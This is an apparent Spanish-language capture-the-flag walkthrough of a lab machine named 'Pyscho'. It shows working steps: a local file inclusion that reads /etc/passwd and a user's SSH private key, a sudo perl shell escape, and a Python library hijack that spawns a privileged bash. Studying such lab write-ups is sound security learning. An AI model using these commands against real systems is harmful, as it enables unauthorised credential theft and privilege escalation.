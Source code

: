 <h1><b>Pyscho</b></h1>
<hr>

![Captura](https://github.com/user-attachments/assets/4290d8de-0c8d-42b3-9b46-cae794e60379)

<h2>Reconocimiento</h2>
<hr>
Realizamos un escaneo con nmap

<br>

![nmap](https://github.com/user-attachments/assets/3d6ed8c0-60c4-47d1-876d-efe438932484)

Despues se suele realizar otro escaneo para ver la version y mas informacion que podamos sacar con los script pero para esta maquina no es necesario. Viendo el puerto 80 y 22 abierto procedemos a ingresar a la pagina web <br>

![pagina](https://github.com/user-attachments/assets/71ee3486-a379-4012-a71f-914940acd462)

Viendo la pagina ninguno de los botones funciona, y al final de esta pordemos observar:<br>

![image](https://github.com/user-attachments/assets/1d22b092-2a49-4f5a-b251-980d29c98a27)

Podemos observar que hay un ERROR al final de la pagina, esto podia indicar que algo se esta cargando mal, pero es toda la informacion que nos dan, para entender mejor como se este originando posiblemente esta falla necesitaremos encontrar la tecnologia en la que esta funcionando la pagina web:<br>

![image](https://github.com/user-attachments/assets/c5a59054-3ca3-4709-9e5c-9977be824c16)

![image](https://github.com/user-attachments/assets/bc2f061c-4341-4f48-a271-fff0b18eecd7)

whatweb no nos da mucha informacion pero con gobuster vemos index.php.

Entonces,que tenemos hasta el momento?
<ul>
  <li>La pagina esta cargando mal algo</li>
  <li>Esta usando php</li>
</ul>

Con esto podemos llegar a la conclusion que la pagina esta usando un include() en php en cual podemos derivarlo a un <a href="https://hacktricks.boitatech.com.br/pentesting-web/file-inclusion#file-inclusion" >Local File Inclusion </a>

No conocemos el parametro dentro de index.php, por lo tanto podemos proceder a fuzzear con la herramienta <a href="https://github.com/xmendez/wfuzz">wfuzz</a><br>

![image](https://github.com/user-attachments/assets/3cf9e007-1f79-43d1-b579-1cbcbe41ed8c)

Como podemos ver <b>secret</b> es el parametro que esta haciendo el include, primero veremos que usuarios hay en el sistema en /etc/cat

```bash
curl http://ip de la maquina/index.php?secret=/etc/passwd
```
![image](https://github.com/user-attachments/assets/f3820ae8-8ccb-46ee-aba3-6617ffb65217)
<br>
<h2>Foothold</h2>
<hr>

Podemos ver unas cuantas accounts, recordemos que la maquina cuenta con un servicio ssh, por lo tanto podemos realizar fuerza bruta a estas cuentas con hydra o buscar por las llaves. <br>

```bash
/home/luisillo/.ssh/id_rsa
/home/vaxei/.ssh/id_rsa
```
<br>
Probamos con las 2 y encotramos la llave para vaxei<br>

```bash
curl http://ip de la maquina/index.php?secret=/home/vaxei/.ssh/id_rsa
```
<br>

![image](https://github.com/user-attachments/assets/18b82ab6-82a0-4771-9ffb-0d3a714c0ae1)
<br>

Ahora entonces teniendo el ssh podriamos logearnos al menos que nos pidan una frase para ingresar.

>[!] Tip
>
>El archivo id_rsa debe tener permisos 600.
>
>Algunos id_rsa estan cifrados con un passphrase, que en ciertos casos necesitaras para que tu key sea aceptada<br>


![image](https://github.com/user-attachments/assets/919a1435-03f1-475a-a017-f15b279e44d6)

<br>
<h2>Lateral Movement</h2>
<hr>

De las primeras cosas que se suelen hacer en una maquina suele ser

```bash
sudo -l
id
Revisar /var/www/html
ps aux
etc
```

Con sudo -l nos saldra todos los permisos que podemos ejecutar como sudo si es que existe alguno, encontramos:
<br>

![image](https://github.com/user-attachments/assets/68746a92-227e-4048-b633-7394437417ff)

<br>

Ya que podemos ejecutar perl como luisillo, y al ser perl un lenguaje de programacion el proceso de escalado es sencillo con <a href="https://gtfobins.github.io/#">GTFOBins</a>


```bash
sudo -u luisillo perl -e 'exec "/bin/sh";'
```
<br>

![image](https://github.com/user-attachments/assets/cf2a6c26-88a3-4e52-b6f7-0c6ccd0094d2)

<br>
<h2>Escalada de Privilegios</h2>
<hr>

Igual que el anterior probramos sudo -l <br>

![image](https://github.com/user-attachments/assets/6f5712f2-6a00-45c4-8b06-edc0cb77f940)

<br>

Al parecer sudoers nos permite ejecutar el script mas no modificarlo.

```python
import subprocess
import os
import sys
import time

# F
def dummy_function(data):
    result = ""
    for char in data:
        result += char.upper() if char.islower() else char.lower()
    return result

# Código para ejecutar el script
os.system("echo Ojo Aqui")

# Simulación de procesamiento de datos
def data_processing():
    data = "This is some dummy data that needs to be processed."
    processed_data = dummy_function(data)
    print(f"Processed data: {processed_data}")

# Simulación de un cálculo inútil
def perform_useless_calculation():
    result = 0
    for i in range(1000000):
        result += i
    print(f"Useless calculation result: {result}")

def run_command():
    subprocess.run(['echo Hello!'], check=True)

def main():
    # Llamadas a funciones que no afectan el resultado final
    data_processing()
    perform_useless_calculation()
    
    # Comando real que se ejecuta
    run_command()

if __name__ == "__main__":
    main()
```

Viendo el codigo vemos que las librerias se estan insertando de forma insegura, es ahi donde nosotros haremos un <a href="https://deephacking.tech/path-hijacking-y-library-hijacking/">Library Hijacking</a>.<br>

Crearemos un archivo llamado subprocess.py de esta forma:

```python
import os
os.system("/bin/bash -p")
```
<br>
Ejecutamos de esta manera:
<br>

![image](https://github.com/user-attachments/assets/0623128d-d221-4f67-a670-a838b457fcb2)

<br>

y de esta manera finalizamos la maquina.

HackTheBox: billyelcalvo

